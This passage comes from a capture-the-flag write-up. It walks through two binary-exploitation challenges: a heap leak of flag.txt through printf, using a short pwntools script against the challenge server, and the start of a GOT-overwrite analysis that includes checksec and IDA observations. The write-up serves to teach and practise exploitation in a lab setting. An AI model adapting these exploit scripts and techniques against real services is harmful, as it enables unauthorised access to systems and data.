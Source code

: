 ![](https://i.ibb.co/CHRTSfH/filelen1.png)

Ok so we can dump `flag.txt` onto the heap. Since the variable `size` is passed to `read()`, we will just input, say, 100. And then we will pass an input with terminating nullbyte, and let the `printf()` sled run its way through.
This is also explained quite well by [Naetw's](https://github.com/Naetw/CTF-pwn-tips) amazing cheatsheet on pwn challenges:

![](https://i.ibb.co/d7LTSVP/filelen2.png)

Ok let's try out our concept:
```py
#!usr/bin/env python
from pwn import *
r = remote("34.87.186.254",21235)
r.sendlineafter("> ", "flag.txt")
r.sendlineafter("Length: ", "100")
r.sendafter("Name: ", b'a'*1)
r.recvuntil("Goodbye a")
print("Flag: g"+r.recvline())
```

![](https://i.ibb.co/xGQhFYc/filelen3.png)


And there's our flag.

Flag: `greyhats{th3_fl4g_w4s_fr33_bu7_y0u_br0ught_1t_b4ck_bY_h34p_r3us3!}`

# Where GOT shell? | 11 solves 488 pts
From the name, I kinda assumed that it was a GOT table rewrite. This time round only the binary is provided to us, the source code isn't provided. Let's run the program to see what it does:

![](https://i.ibb.co/7tKpsKV/wheregotshell1.png)

Ok this program seems to just take whatever address we pass it and directly write to said address. We can run a quick `checksec` on the binary to see if it has any protections.

![](https://i.ibb.co/Bnrm8Lq/wheregotshell2.png)

Partial RELRO, no canary, no PIE. That means that whatever addresses that I get, I get to use. Nice. Since this already set itself up as a GOT rewrite, I'm looking out for the function that I can overwrite as well as the function that I will overwrite with. Let's fire up IDA.

![](https://i.ibb.co/QffC686/wheregotshell3.png)

Roughly we can see that the program basically runs `scanf()` for `%lx`, `scanf()` for `%lx` again, then write the second input into the first input address. Pretty straight forward. Let's look at the function table.

![](https://i.ibb.co/5L9cFBC/wheregotshell4.png)

There is a `win()` function at `0x401176`. The `win()` function will give us the flag:
